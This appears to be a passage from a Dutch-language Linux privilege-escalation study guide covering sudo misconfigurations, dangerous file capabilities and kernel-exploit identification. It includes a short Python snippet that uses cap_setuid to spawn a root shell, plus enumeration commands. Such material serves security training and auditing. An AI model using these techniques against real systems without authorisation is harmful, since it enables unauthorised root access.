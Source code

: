 **Common Misconfigurations:**

**NOPASSWD:**
```
user ALL=(ALL) NOPASSWD: /usr/bin/vim
```
- Vim kan gebruikt worden voor shell escape

**Wildcards:**
```
user ALL=(ALL) /bin/tar *
```
- Wildcard exploitation mogelijk

**ENV Variables:**
```
user ALL=(ALL) SETENV: /usr/bin/script.sh
```
- Environment variable manipulation

### Capabilities

**Definitie:**
- Granulaire privileges op binary level
- Alternative voor SUID
- Delen van root privileges

**List Capabilities:**
```bash
getcap -r / 2>/dev/null
```

**Dangerous Capabilities:**

**CAP_SETUID:**
- Toestaat arbitrary UID changes
- Direct privilege escalation

**CAP_DAC_READ_SEARCH:**
- Bypass file read permission checks
- Read sensitive files

**CAP_DAC_OVERRIDE:**
- Bypass file permission checks
- Read/write/execute any file

**Exploitation Example (python with cap_setuid):**
```python
import os
os.setuid(0)
os.system("/bin/bash")
```

### Kernel Exploits

**Identification:**
```bash
uname -a
cat /proc/version
searchsploit linux kernel [version]
```

